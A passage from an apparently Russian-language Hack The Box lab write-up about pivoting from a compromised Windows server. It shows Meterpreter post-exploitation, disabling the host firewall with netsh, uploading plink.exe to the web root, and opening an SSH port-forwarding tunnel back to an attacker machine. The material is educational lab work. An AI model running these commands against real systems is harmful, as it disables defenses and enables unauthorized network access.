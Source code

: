 [![msf-pivot-granny-privesc.png](/assets/images/htb/machines/grandparents/msf-pivot-granny-privesc.png)](/assets/images/htb/machines/grandparents/msf-pivot-granny-privesc.png)
{:.center-image}

Теперь можно спавнить шелл и делать все, что душе угодно.

```
C:\WINDOWS\system32>netsh firewall set opmode disable
netsh firewall set opmode disable
Ok.
```

### PuTTY из консоли

Создавать туннель будем с помощью консольного SSH-клиента для Windows — Plink (аналог PuTTY для командной строки). Его можно [скачать](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) или просто найти в Kali, в разделе готовых бинарей для винды.

```
root@kali:~# locate plink.exe
/usr/share/windows-resources/binaries/plink.exe
```

Забросим Plink на Windows Server с помощью meterpreter. Я выбрал директорию, которая априори доступна для записи — `C:\Inetpub\wwwroot`.

```
meterpreter > upload plink.exe "c:\inetpub\wwwroot"
[*] uploading  : plink.exe -> c:\inetpub\wwwroot
[*] uploaded   : plink.exe -> c:\inetpub\wwwroot\plink.exe
```

Теперь создадим вспомогательного пользователя `snovvcrash` на своей машине (чтобы не поднимать туннель от имени root), зададим для него пароль `qwe123` и стартуем SSH-сервер.

```
root@kali:~# useradd snovvcrash
root@kali:~# passwd snovvcrash
New password: qwe123
Retype new password: qwe123
passwd: password updated successfully
root@kali:~# service ssh start
```

Еще я лишу этого пользователя возможности выполнять команды, изменив дефолтный шелл на `/bin/false` в файле `/etc/passwd`. Выполнять команды ему не за чем, а вот безопасность схемы от этого только повысится.

[![etc-passwd-edit.png](/assets/images/htb/machines/grandparents/etc-passwd-edit.png)](/assets/images/htb/machines/grandparents/etc-passwd-edit.png)
{:.center-image}

Теперь все готово и можно прокладывать SSH-туннель. Из командной строки Windows я выполню такую команду.

```
C:\Inetpub\wwwroot>plink.exe -l snovvcrash -pw qwe123 -L 10.10.10.15:8888:10.10.14.30:8888 -N 10.10.14.30
```


[//]: # (2019-12-26)